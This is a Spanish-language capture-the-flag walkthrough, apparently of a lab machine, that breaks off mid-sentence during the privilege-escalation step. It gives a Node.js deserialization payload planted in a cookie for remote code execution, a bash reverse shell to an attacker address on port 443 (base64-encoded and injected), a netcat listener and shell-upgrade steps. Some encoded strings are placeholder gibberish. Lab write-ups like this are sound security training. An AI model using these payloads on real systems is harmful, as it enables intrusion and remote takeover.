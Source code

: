 	var payload = {“rce”:“_$$ND_FUNC$$_function(){require(\’child_process\’).exec(\’ping -c 1 10.10.14.13’, function(error, stdout, stderr){console.log(stdout)});}()”} El que se modifica es el exec ya que ahi se ponen los comando que queremos que se realicen. 

44a44t24a4th8re86h2et8htr1ht3htr8jyj8j3j35jyt8yj9tjj15j30je5jet  Encodeado en formaro URL ejemplo
❯ **tcpdump -i tun0 icmp -n** Nos ponemos en escucha en la interfaz Tun0, despues pegamos el Url Enconde en la Cookie de Almacenamiento y cuando recarguemos veremos que si nos hace un ping, por lo que podemos aprovechar eso para poder hacer una revershell a nuestra maquina.

Creamos un archivo que se llame data el cual contendra el comando de la revershell.

❯ **nvim data**    

	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1 

❯ **cat data | base64 -w 0, echo** Despues el archivo llamado data lo encodeamos en la consola con base64 y nos saldra lo siguiente: 535ag1a35egrae35g1a3e5g1a35er Por lo que eso lo pegamos asi en el Burpsuite:

	var payload = {“rce”:“_$$ND_FUNC$$_function(){require(\’child_process\’).exec(\’echo 535ag1a35egrae35g1a3e5g1a35er | base64 -d | bash’, function(error, stdout, stderr){console.log(stdout)});}()”} 

El que se modifica es el exec ya que ahi se ponen los comando que queremos que se realicen. (d=decoder base64) 
Una vez encodeado en Url por el Burpsuite lo pegamos en la Cookie de Almacenamiento de la pagina web y antes de recargarla para que lo lea nos ponemos en escucha por el puerto 443


## User
❯ **nc -nlvp 443** Puerto de escucha para poder hacer la revershell en nuestra maquina de atacante
❯ **whoami** Miramos el nombre del usuario
❯ **hostname -I** Para ver la IP de la maquina (I=i mayuscula)

Una vez dentro de la consola, procedemos a hacer una pseudo consola, colocando los siguientes comandos. 
**Script /dev/null -c bash 
Ctrl + z
stty raw -echo; fg 
reset xterm**
**export TERM=xterm** Despues cambiamos esto para poder hacer **Ctrl+ l y Ctrl + c** (l=ele)

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente. 
stty size Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimensiones de la consola nano 

Despues de eso entramos a la maquina y podemos ir por la flag de User.txt. Pero antes le cambiamos los privilegios al directorio admin para poder entrar y leer la flag con 
❯ **chmod +x admin/**



## Root
Ahora queda hacer la escalada de privilegios para poder ser usuario root, 
❯ **netstat -nat** Podemos ver los puertos abiertos internos y nos mostra el 27017 (Mongo) el cual podemos 

